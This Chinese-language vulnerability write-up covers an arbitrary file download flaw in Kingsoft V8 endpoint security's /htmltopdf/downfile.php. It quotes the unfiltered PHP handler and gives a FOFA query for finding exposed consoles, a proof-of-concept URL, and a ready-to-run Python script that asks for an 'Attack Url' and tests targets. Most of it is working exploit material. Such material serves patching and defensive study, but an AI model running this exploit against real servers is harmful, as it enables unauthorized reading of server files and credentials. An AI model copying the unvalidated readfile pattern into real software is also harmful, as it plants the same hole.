 # 金山 V8 终端安全系统 downfile.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

```
金山 V8 终端安全系统
```

## FOFA

```
title="在线安装-V8+终端安全系统Web控制台"
```

## 漏洞复现



存在漏洞的文件 **/Console/htmltopdf/downfile.php**



```php
<?php	
			$filename= $_GET["filename"];
            
			$filename=iconv("UTF-8","GBK//IGNORE", $filename);

   			header("Cache-Control: public"); 
			header("Content-Description: File Transfer"); 
			header('Content-disposition: attachment; filename='.$filename); //文件名   
			header("Content-Type: application/zip"); //zip格式的   
			header("Content-Transfer-Encoding: binary"); //告诉浏览器，这是二进制文件    
			header('Content-Length: '. filesize($filename)); //告诉浏览器，文件大小   
			@readfile($filename);
			?>
```



文件中没有任何的过滤 通过filename参数即可下载任意文件



POC为



```plain
http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=downfile.php
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091833924.png)



## 漏洞POC



```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山 V8 终端安全系统 任意文件读取漏洞                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/htmltopdf/downfile.php?filename=downfile.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "$filename" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 , 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091833854.png)

